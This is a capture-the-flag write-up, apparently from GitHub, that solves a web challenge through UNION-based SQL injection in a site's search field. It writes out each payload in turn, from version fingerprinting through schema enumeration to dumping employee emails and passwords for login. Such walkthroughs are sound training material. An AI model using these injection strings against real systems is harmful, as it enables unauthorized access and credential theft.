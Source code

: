 # Challenges:

Log into BapeMusic to get the something...

FLAG Format: EHC{XXX}

# Solution:

They give me a nice looking website with 3 function Search, Sign up, Log in.

After sign up they told the sign up function not avalible, the Log in can't exploit anything because they filter all the symbol for sql injection. We only have last option is the search. I enter some "Entry point dection" symbol and found something at `"`:

![image](https://github.com/Katsumi1012/CTF/assets/90083485/489777dc-819a-48b7-ad1a-5cf25b6487cc)

MariaDB is very usefull and try a round with basic query and when trying this query `" UNION SELECT @@version; -- -`, i got:

![image](https://github.com/Katsumi1012/CTF/assets/90083485/8fa91f22-6065-4ab8-a1ca-036da1db153f)

Now, i know what i'm going to to. First check the number of columns and an error at column 5 so it has 4 columns

![image](https://github.com/Katsumi1012/CTF/assets/90083485/b7e441db-1976-46a5-b54c-5f480c16893d)

Get database name: `" UNION SELECT @@version,database(),3,4; -- -`

![image](https://github.com/Katsumi1012/CTF/assets/90083485/7802dfd8-fc11-4290-9361-d70bfd3fe0f8)

Discover the `sqlinjection`: `" UNION select TABLE_NAME,TABLE_SCHEMA,3,4 from INFORMATION_SCHEMA.TABLES where table_schema='sqlinjection'-- -`

![image](https://github.com/Katsumi1012/CTF/assets/90083485/ddb4da13-a674-4a09-95e6-4052df92b50b)

Discorver the `employee` table: `" UNION select COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.COLUMNS where table_name='employee'-- -` and we saw some interesting column:

![image](https://github.com/Katsumi1012/CTF/assets/90083485/2068ae98-2129-44aa-a314-8a15f92fe480)

Get in there to see data: `" UNION select Email, Password,3,4 from employee -- -`

![image](https://github.com/Katsumi1012/CTF/assets/90083485/5a26ce8f-4493-42b2-8f69-a71b6fd9de19)

Siuuuuu. We got the username and password. Now try to login

![1st](https://github.com/Katsumi1012/CTF/assets/90083485/d94cf8fe-7c4d-41a1-a5c6-d27272de7201)

Get the flag 🚩

# Enjoy 🤡
